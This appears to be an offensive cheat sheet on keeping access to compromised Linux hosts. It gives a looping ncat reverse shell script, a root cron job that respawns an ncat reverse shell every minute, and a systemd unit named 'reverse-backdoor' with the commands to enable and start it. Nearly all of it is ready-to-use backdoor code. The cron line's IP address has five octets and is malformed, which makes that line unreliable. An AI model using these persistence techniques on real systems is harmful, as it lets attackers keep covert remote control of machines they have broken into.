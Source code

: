 ## Persistence via bash backdoor

An encrypted reverse shell:

```bash
#!/bin/bash

IP="10.10.10.10"
PORT=42024

while true; do 
    ncat “$IP” “$PORT” -e /bin/bash --ssl
done
```

## Persistence via cron job

```text
*/1 * * * * root "/bin/ncat 3.66.190.34.22 42024 -e /bin/bash --ssl"
```

## Persistence via system service

Preparing the service descriptor:

```bash
cat /usr/lib/systemd/system/reverse-backdoor.service
[Unit]
Description=Backdoor
After=network.target

[Service]
Type=simple
RemainAfterExit=yes

ExecStart=/home/ubuntu/reverse-backdoor 0.0.0.0 42024
ExecStop=killall reverse-backdoor

[Install]
WantedBy=multi-user.target
```

Giving executable permissions:

```bash
chmod +x /home/ubuntu/reverse-backdoor
```

Applying changes to systemd:

```bash
systemctl daemon-reload
systemctl enable reverse-backdoor
systemctl start reverse-backdoor
```
